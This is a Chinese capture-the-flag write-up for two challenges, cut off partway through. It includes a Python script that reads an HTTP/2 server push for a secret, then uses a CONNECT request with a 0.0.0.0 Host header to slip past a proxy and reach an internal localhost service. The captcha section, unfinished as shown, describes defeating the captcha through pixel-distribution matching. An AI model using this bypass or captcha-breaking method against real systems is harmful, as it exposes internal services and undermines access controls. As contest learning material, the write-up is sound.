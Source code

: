 ## 超安全的代理服务器

第一问，首先抓包 HTTP2 看到 Secret 和 Flag（学会了 Wireshark 抓包 TLS 的姿势），然后花了好大的功夫写出了代码，用 hyper 发 HTTP2 包。

第二问，HTTP2 的 CONNECT 包发了好久始终没用，后来发现 HTTP1.1 也可以……那么问题在于怎么绕过，这里采用了 `0.0.0.0` 绕过法，感觉特别简单（

最后还得附上一个 Referer 才能成功访问。

```python
from hyper import HTTPConnection, HTTP11Connection

from hyper import tls
import ssl, re
import sslkeylog, os, time, urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# sslkeylog.set_keylog('key.log')

ssl_context = tls.init_context()
ssl_context.check_hostname = False
ssl_context.verify_mode = ssl.CERT_NONE

conn = HTTPConnection('146.56.228.227:443', ssl_context=ssl_context, enable_push=True)

conn.request('GET', '/')
resp = conn.get_response()
for push in conn.get_pushes():
    text = push.get_response().read()
    flag = re.findall(rb'(?<= proxy\.\().*(?= \)\<)', text)[0]
    secret = re.findall(rb'(?<=secret: ).*(?= ! Pl)', text)[0]

print(flag)

import requests

s = requests.Session()
r = s.request('CONNECT', 'https://146.56.228.227:443', headers={'Secret': str(secret, encoding='utf-8'), 'Host': '0.0.0.0:8080'}, verify=False)
r = s.request('GET', 'https://146.56.228.227:443', headers={'Host': '127.0.0.1:8080', 'Referer': '146.56.228.227'}, verify=False)
# print(r.status_code)
print(r.text)
```

## 证验码

首先可以发现打乱图像并不会影响像素颜色的分布，以及每个字在图上的大小和像素颜色分布都是固定的，随机的只有 noise 的位置和颜色。先跑一遍没有 noise 的图，统计出每个字在图上的像素颜色分布，然后剩余的就是枚举可能的组合，并将组合内的字符的像素颜色分布加在一起，和打乱后的像素颜色分布相比对，选出最接近的。

这里其实可以采用最简单的模拟退火算法。首先由于 noise 的存在，无 noise 的图像的颜色像素分布的每一个数值的颜色数量都会比有 noise 的图像的分布要多，所以可以这样设置一个函数：

$$
F(N,G)=\sum_{i=0}^{255}\left(\max(0,N_i-G_i)^2\times 10000+\max(0,G_i-N_i)\right)
$$
